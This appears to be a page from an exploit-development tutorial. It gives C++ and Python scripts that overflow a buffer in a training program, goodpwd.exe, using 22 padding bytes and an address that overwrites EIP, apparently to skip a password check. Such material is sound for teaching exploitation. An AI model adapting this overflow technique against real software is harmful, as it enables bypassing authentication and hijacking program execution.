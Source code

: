 <figure><img src="../../.gitbook/assets/image (21) (1).png" alt=""><figcaption><p>22</p></figcaption></figure>

{% code overflow="wrap" lineNumbers="true" %}
```cpp
#include <iostream>
#include <cstring>

int main(int argc, char *argv[])
{
  char command[256];
  char parameter[128];
  
 memset(parameter,0x41,22); // fill the parameter with 'A' character
  
  // now modify the location which overwrites the EIP
  
  parameter[22]= 0x48;
  parameter[23]= 0x15;
  parameter[24]= 0x40;
  parameter[25]= 0x00;

  parameter[26] = 0 ;  /* null terminate the parameter so as previous frames are not overwritten */
  
  strcpy(command , "goodpwd.exe ");
  strcat(command, parameter);
  
  printf("%s\n",command);
  
  system(command);	/* execute the command */
  return 0;
}
```
{% endcode %}

{% code overflow="wrap" lineNumbers="true" %}
```python
# we can use this python helper script also.
import os

payload = "\x41" * 22
payload += "\x48\x15\x40"
command = "goodpwd.exe %s" % payload

os.system(command)
```
{% endcode %}
